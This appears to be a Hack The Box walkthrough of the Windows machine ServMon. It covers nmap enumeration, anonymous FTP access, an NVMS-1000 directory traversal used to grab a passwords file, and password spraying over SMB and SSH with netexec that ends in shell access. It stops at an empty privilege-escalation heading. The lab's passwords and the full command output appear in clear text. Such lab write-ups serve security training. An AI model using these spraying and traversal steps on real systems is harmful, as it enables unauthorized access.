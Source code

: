 - Machine Name : ServMon
- Link - https://app.hackthebox.com/machines/240
- OS: Windows
- Difficulty - Easy

### Initial Enumeration

```nmap -sCV -oN nmap.txt -Pn -v 10.10.10.184```
```bash
# Nmap 7.94SVN scan initiated Fri Sep 27 14:17:15 2024 as: nmap -sCV -oN nmap.txt -v -Pn 10.10.10.184
Nmap scan report for 10.10.10.184
Host is up (0.026s latency).
Not shown: 991 closed tcp ports (conn-refused)
PORT     STATE SERVICE       VERSION
21/tcp   open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_02-28-22  07:35PM       <DIR>          Users
22/tcp   open  ssh           OpenSSH for_Windows_8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 c7:1a:f6:81:ca:17:78:d0:27:db:cd:46:2a:09:2b:54 (RSA)
|   256 3e:63:ef:3b:6e:3e:4a:90:f3:4c:02:e9:40:67:2e:42 (ECDSA)
|_  256 5a:48:c8:cd:39:78:21:29:ef:fb:ae:82:1d:03:ad:af (ED25519)
80/tcp   open  http
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-favicon: Unknown favicon MD5: 3AEF8B29C4866F96A539730FAB53A88F
|_http-title: Site doesn't have a title (text/html).
| fingerprint-strings: 
|   GetRequest, HTTPOptions, RTSPRequest: 
|     HTTP/1.1 200 OK
|     Content-type: text/html
|     Content-Length: 340
|     Connection: close
|     AuthInfo: 
|     <!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
|     <html xmlns="http://www.w3.org/1999/xhtml">
|     <head>
|     <title></title>
|     <script type="text/javascript">
|     window.location.href = "Pages/login.htm";
|     </script>
|     </head>
|     <body>
|     </body>
|     </html>
|   NULL: 
|     HTTP/1.1 408 Request Timeout
|     Content-type: text/html
|     Content-Length: 0
|     Connection: close
|_    AuthInfo:
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5666/tcp open  tcpwrapped
6699/tcp open  tcpwrapped
8443/tcp open  ssl/https-alt
| http-title: NSClient++
|_Requested resource was /index.html
|_ssl-date: TLS randomness does not represent time
| fingerprint-strings: 
|   FourOhFourRequest, HTTPOptions, RTSPRequest, SIPOptions: 
|     HTTP/1.1 404
|     Content-Length: 18
|     Document not found
|   GetRequest: 
|     HTTP/1.1 302
|     Content-Length: 0
|_    Location: /index.html
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2020-01-14T13:24:20
| Not valid after:  2021-01-13T13:24:20
| MD5:   1d03:0c40:5b7a:0f6d:d8c8:78e3:cba7:38b4
|_SHA-1: 7083:bd82:b4b0:f9c0:cc9c:5019:2f9f:9291:4694:8334
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS

Host script results:
| smb2-time: 
|   date: 2024-09-27T18:18:58
|_  start_date: N/A
|_clock-skew: 2s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 27 14:19:03 2024 -- 1 IP address (1 host up) scanned in 107.30 seconds
```
So the first thing we see right away is the anonymous FTP  allowed, lets try to login into ftp using anonymous:anonymous

We find 2 files Confidential.txt and Notes to do.txt
The files mention the following-
```bash
┌──(captain㉿kali)-[~/Documents/HTB/servmon/ftp]
└─$ cat Confidential.txt                    
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine                                                                                                                                                                                                                                            

┌──(captain㉿kali)-[~/Documents/HTB/servmon/ftp]
└─$ cat Notes\ to\ do.txt 
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```
We also have port 80 open, lets check the website

Website running NVMS 1000
![image](https://github.com/user-attachments/assets/bea8f1c6-24a8-4714-b783-4f567072a453)

Lets quickly google NVMS 1000 exploits to see if we have anything and boom we get a directory traversal exploit, now we can grab any interesting files from the machine
Exploit POC on E-DB - ![NVMS-1000 - Directory Traversal](https://www.exploit-db.com/exploits/47774) explains how we perform directory traversal.

### Foothold

From the above files we got that there is a passwords.txt file on Nathan's desktop, lets see if we can grab it
![image](https://github.com/user-attachments/assets/66bcc69b-3485-4e0f-9d6f-a4055db8f836)
And we have it, now we can spray these passwords using netexec

```bash
┌──(captain㉿kali)-[~/Documents/HTB/servmon]
└─$ nxc smb 10.10.10.184 -u nathan -p passwords.txt          
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:L1k3B1gBut7s@W0rk STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:0nly7h3y0unGWi11F0l10w STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:IfH3s4b0Utg0t0H1sH0me STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nathan:Gr4etN3w5w17hMySk1Pa5$ STATUS_LOGON_FAILURE 
                                                                                                                                                                                                                                            
┌──(captain㉿kali)-[~/Documents/HTB/servmon]
└─$ nxc smb 10.10.10.184 -u nadine -p passwords.txt 
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:1nsp3ctTh3Way2Mars! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:Th3r34r3To0M4nyTrait0r5! STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [-] ServMon\nadine:B3WithM30r4ga1n5tMe STATUS_LOGON_FAILURE 
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 
```

It doesnt look much when we try to enumerate shares accessible using the password but the box has port 22 open, spraying the passwords on ssh
```bash
┌──(captain㉿kali)-[~/Documents/HTB/servmon]
└─$ nxc smb 10.10.10.184 -u nadine -p L1k3B1gBut7s@W0rk --shares                                  
SMB         10.10.10.184    445    SERVMON          [*] Windows 10 / Server 2019 Build 17763 x64 (name:SERVMON) (domain:ServMon) (signing:False) (SMBv1:False)
SMB         10.10.10.184    445    SERVMON          [+] ServMon\nadine:L1k3B1gBut7s@W0rk 
SMB         10.10.10.184    445    SERVMON          [*] Enumerated shares
SMB         10.10.10.184    445    SERVMON          Share           Permissions     Remark
SMB         10.10.10.184    445    SERVMON          -----           -----------     ------
SMB         10.10.10.184    445    SERVMON          ADMIN$                          Remote Admin
SMB         10.10.10.184    445    SERVMON          C$                              Default share
SMB         10.10.10.184    445    SERVMON          IPC$            READ            Remote IPC
                                                                                                                                                                                                                                            
┌──(captain㉿kali)-[~/Documents/HTB/servmon]
└─$ nxc ssh 10.10.10.184 -u nadine -p L1k3B1gBut7s@W0rk         
SSH         10.10.10.184    22     10.10.10.184     [*] SSH-2.0-OpenSSH_for_Windows_8.0
SSH         10.10.10.184    22     10.10.10.184     [+] nadine:L1k3B1gBut7s@W0rk  Windows - Shell access!
```

We can ssh into the box and grab the user.txt


### Privilege Escalation


